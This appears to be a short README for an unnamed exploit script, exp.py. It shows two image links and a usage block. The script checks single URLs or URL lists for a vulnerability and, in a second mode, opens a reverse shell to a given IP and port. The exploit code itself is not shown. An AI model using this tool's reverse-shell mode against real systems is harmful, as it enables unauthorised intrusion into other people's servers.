


```text
usage:
python exp.py -u <url> -i 0 #check
pyhon exp.py -u <url> -i 1 -I <IP> -P <PORT>#reverseshell
python exp.py -f <file> -i 0#check url list
Usage: exp.py [options]

Options:
  -h, --help  show this help message and exit
  -u URL      set url
  -f FILE     set file (Only supports detection)
  -i ID       the id 0 is check/the id 1 is shell
  -I IP       RHOST
  -P PORT     RPORT
```





